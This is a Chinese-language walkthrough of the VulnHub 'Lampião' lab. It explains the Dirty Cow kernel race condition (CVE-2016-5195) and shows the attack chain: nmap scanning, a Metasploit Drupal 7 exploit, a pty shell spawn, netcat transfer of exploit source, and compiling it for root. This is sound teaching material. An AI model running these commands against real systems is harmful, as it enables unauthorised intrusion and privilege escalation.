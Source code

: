 # Dirty Cow

> 靶机地址：[lampiao](https://www.vulnhub.com/entry/lampiao-1,249/)
>
> 下载地址：[**Lampião: 1** ](https://download.vulnhub.com/lampiao/Lampiao.zip)

### 漏洞介绍

#### 简介

脏牛（Dirty Cow）是Linux内核的一个提权漏洞，之所以叫Dirty Cow，Linux内核的内存子系统在处理写时拷贝（Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。脏牛的CVE编号是CVE-2016-5195。

#### 原因

很多情况下，我们希望能够并行地去处理多个相同的进程（比如我们需要去并行计算一些东西），所以内核中就存在复制进程的操作，而fork()函数就是用来复制进程的函数，它可以拷贝当前进程的内存空间，创建一个新的内存空间，这样我们就拥有了两个完全一样的进程空间。但是这个复制过程是很耗费空间和时间的，因为每个子进程都有和父进程一样大的物理空间，但是这些进程可能并不会执行写的操作，也就是不会对原始的文件进行更改，那这种浪费就是没有必要的，所以我们采取了COW（Copy On Write）技术进行优化。

COW（Copy On Write）技术是一种内存管理技术，它在进程复制时，不会立即为进程分配物理内存，而是为进程建立虚拟的内存空间，将虚拟空间指向物理空间，便于读取文件；只有当需要执行文件写操作的时候，才会复制一份物理内存空间分配给它，然后进程在这个复制完的物理内存空间中进行修改，而不会影响其他进程。换句话说，在COW机制中，当多个进程共享一个只读文件的时候，内核会把该文件的内存映射到这些进程的虚拟地址空间中，这些进程都可以读取该文件的内容，当有进程要修改文件时，就会把这个原始文件的状态改成可写状态，然后内核会将该原始文件复制一份，原始文件再改回只读状态，然后进程就修改这份副本，而原始文件仍然可以被其它进程共享，这就是Copy-on-Write的核心思想。

**原始只读文件——>修改为可写状态——>复制原始只读文件——>原始状态改回可读。**

但是在这个过程中，存在竞态条件。假如现在多个进程同时共享一个只读文件，那么内核可能会把这个文件复制多次，使得每个进程可以修改，但是在内核将原始只读文件的访问状态从可写改回只读之前，多个进程都可以访问和修改原始文件，导致了竞态条件的产生，如果有恶意进程在这段时间进行了修改，那么修改的就是原始文件，从而产生了漏洞。

该漏洞利用了Copy-on-Write机制中的竞态条件，攻击者可以利用这个竞态条件来获取对一个本来只读的文件的写权限，从而提升为本地管理员权限。

#### 类型

内核竞态条件漏洞

#### 版本

Linux kernel>2.6.22的所有Linux系统（即：从2007年发布的2.6.22开始，到2016年10月18日位置，这中间发行的所有Linux系统都受影响）

#### 危害

本地提权

---

### 信息收集

#### 主机扫描

```
 sudo arp-scan -l 
```



![image-20231102183039011](./imgs/image-20231102183039011.png)

#### 端口扫描

```bash
sudo nmap --min-rate 10000 -p- 192.168.8.29
```



![image-20231102183156986](./imgs/image-20231102183156986.png)

详情扫描

```bash
sudo nmap -sT -sC -sV -O -p 22,80,1898  192.168.8.29
```

![image-20231102184153614](./imgs/image-20231102184153614.png)

可以看到`1889端口`使用的是`Drupal7`的CMS

### 漏洞探测

访问`80`

![image-20231102184624629](./imgs/image-20231102184624629.png)

访问`1898`

![image-20231102184726820](./imgs/image-20231102184726820.png)

通过指纹识别插件也可以看到是`Drupal 7`

![image-20231102184946763](./imgs/image-20231102184946763.png)

### 漏洞利用

使用msf

```
search drupal 7
```



![image-20231102190629773](./imgs/image-20231102190629773.png)

```bash
use 1
show options
```



![image-20231102191158516](./imgs/image-20231102191158516.png)

显示该模块的可用选项，发现我们需要指定主机和端口

```bash
set rhosts 192.168.8.29
set rport 1898
run
```

![image-20231102191514664](./imgs/image-20231102191514664.png)

查看一下当前的用户，发现不是root用户，证明需要进行本地提权，我们将放在攻击机上的漏洞探针脚本上传到靶机

```bash
getuid
```

![image-20231102191648342](./imgs/image-20231102191648342.png)

可以使用`uname -a`，找到相应的版本，并查看是否可以有相关漏洞可以利用

也可以使用相关探针进行探测，这里使用`linux-exploit-suggester.sh`

```bash
git clone https://github.com/mzet-/linux-exploit-suggester
```

![image-20231102192012558](./imgs/image-20231102192012558.png)

上传漏洞探测脚本

```
upload /home/kali/tools/linux-exploit-suggester/linux-exploit-suggester.sh   /tmp/demo.sh
```

![image-20231102192321644](./imgs/image-20231102192321644.png)

文件上传成功后，使用`shell`命令，执行提升权限，执行探测脚本

```bash
shell
python -c "import pty;pty.spawn('/bin/bash')"
chmod +x demo.sh
./demo.sh
```

![image-20231102192459891](./imgs/image-20231102192459891.png)

执行成功后，探测出了相应的信息及漏洞，我们就发现有一个漏洞就是脏牛漏洞（CVE-2016-5195）

![image-20231102192735052](./imgs/image-20231102192735052.png)

![image-20231102192818613](./imgs/image-20231102192818613.png)

#### 权限提升

EXP地址：https://github.com/gbonacini/CVE-2016-5195

![image-20231102200508408](./imgs/image-20231102200508408.png)

#### nc文件传输

使用`nc`进行文件传输

靶机上进行监听

```
nc -l 5064 > dcow.cpp
```

kali攻击机

```
nc 192.168.8.29 5064 < dcow.cpp
```

![image-20231102200550971](./imgs/image-20231102200550971.png)

#### 编译

靶机上进行编译生成一个可执行文件`dcow`

```c
g++ -Wall -pedantic -o2 -std=c++11 -pthread -o dcow dcow.cpp -lutil

或者直接输入 make 进行编译成可执行文件
```



![image-20231102200817327](./imgs/image-20231102200817327.png)

提权

![image-20231102200911598](./imgs/image-20231102200911598.png)

### 参考

- https://dirtycow.ninja/
- https://www.anquanke.com/post/id/84851